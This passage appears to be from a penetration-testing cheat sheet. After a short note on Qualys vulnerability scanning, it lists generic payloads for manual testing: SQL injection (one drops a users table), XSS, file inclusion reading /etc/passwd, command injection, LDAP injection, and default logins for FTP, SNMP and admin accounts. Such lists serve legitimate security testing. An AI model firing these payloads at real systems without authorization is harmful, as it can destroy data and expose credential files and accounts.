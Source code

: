 **Example Usage:**
- Configure asset discovery
- Schedule regular vulnerability scans
- Review and prioritize findings
- Track remediation progress

**Reference Links:**
- [Qualys VMDR](https://www.qualys.com/apps/vulnerability-management/)

## All Possible Payloads for Manual Approach

### Web Application Vulnerability Testing Payloads
```
# SQL Injection Test Payloads
' OR '1'='1
' OR 1=1--
' UNION SELECT null,null,null--
'; DROP TABLE users;--

# Cross-Site Scripting (XSS) Payloads
<script>alert('XSS')</script>
"><script>alert('XSS')</script>
javascript:alert('XSS')

# Local File Inclusion (LFI) Payloads
../../../../etc/passwd
../../../../windows/system32/drivers/etc/hosts
..\..\..\..\boot.ini

# Command Injection Payloads
; cat /etc/passwd
| whoami
& dir
`id`

# LDAP Injection Payloads
*)(uid=*))(|(uid=*
*)(cn=*))(|(cn=*
```

### Network Service Testing Payloads
```
# FTP Anonymous Login Test
anonymous:anonymous@domain.com
ftp:ftp
guest:guest

# SNMP Community Strings
public
private
admin
manager
read
write

# Default Credentials Testing
admin:admin
admin:password
root:root
administrator:password
sa:sa
```
